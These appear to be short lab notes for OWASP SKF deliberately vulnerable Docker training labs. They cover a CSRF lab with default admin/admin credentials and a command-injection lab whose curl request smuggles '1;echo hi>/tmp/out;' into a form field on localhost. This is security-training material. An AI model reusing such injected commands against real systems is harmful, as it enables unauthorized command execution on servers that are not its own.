 ## blabla1337/owasp-skf-lab:java-csrf

```bash
docker run -p5000:5000 blabla1337/owasp-skf-lab:java-csrf
```

spring-boot
-> admin/admin -> src/main/resources/data.sql


```bash
curl 'http://localhost:5000/update' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: JSESSIONID=DA8353D048C3C8B90D33596A10B2B360' \
  --data-raw 'color=yellow2'
```

## blabla1337/owasp-skf-lab:java-cmd

docker run -p5000:5000 blabla1337/owasp-skf-lab:java-cmd

drop malicious payload in remote filesystem
```bash
curl 'http://localhost:5000/home' \
   -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQJEtZoqQ8I4ZmYVs' \
  --data-raw $'------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs\r\nContent-Disposition: form-data; name="size"\r\n\r\n1;echo hi>/tmp/out;\r\n------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs--\r\n' \
```
